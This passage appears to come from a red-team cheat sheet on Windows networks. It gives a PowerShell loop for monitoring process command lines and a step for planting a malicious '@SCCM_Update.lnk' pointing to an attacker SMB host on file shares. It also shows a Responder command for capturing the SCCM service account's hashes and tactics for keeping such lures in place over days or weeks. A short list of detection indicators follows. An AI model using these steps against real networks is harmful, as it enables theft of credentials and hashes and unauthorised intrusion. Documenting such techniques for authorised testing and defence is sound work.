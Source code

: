 
### Practical Approach
```powershell
# 1. Start process monitoring:
while($true) {
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 2
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}

# 2. Place malicious files in accessible shares:
# Create @SCCM_Update.lnk pointing to attacker SMB

# 3. Start Responder on attack machine:
sudo responder -wrf -v -I tun0

# 4. Wait for SCCM service account authentication
```

## 🔄 Advanced User Interaction Techniques

### Multi-Vector Approach
```cmd
# Comprehensive strategy:
1. Network traffic monitoring (passive)
2. Process command line monitoring (active)
3. Malicious file placement (social engineering)
4. Service vulnerability exploitation (technical)
5. Hash capture and cracking (post-exploitation)
```

### Persistence Considerations
```cmd
# Long-term assessment tactics:
- Plant multiple malicious files across shares
- Monitor for extended periods (days/weeks)
- Target different user groups
- Use various file types (.scf, .lnk, .url)
- Rotate attack infrastructure
```

## ⚠️ Detection & Defense

### Detection Indicators
```cmd
# Monitor for:
- Unusual .scf/.lnk file creation in shares
- SMB authentication to external IPs
- Wireshark/packet capture tool usage
- Process monitoring script execution
- Responder/Inveigh tool signatures
- Abnormal file access patterns
```
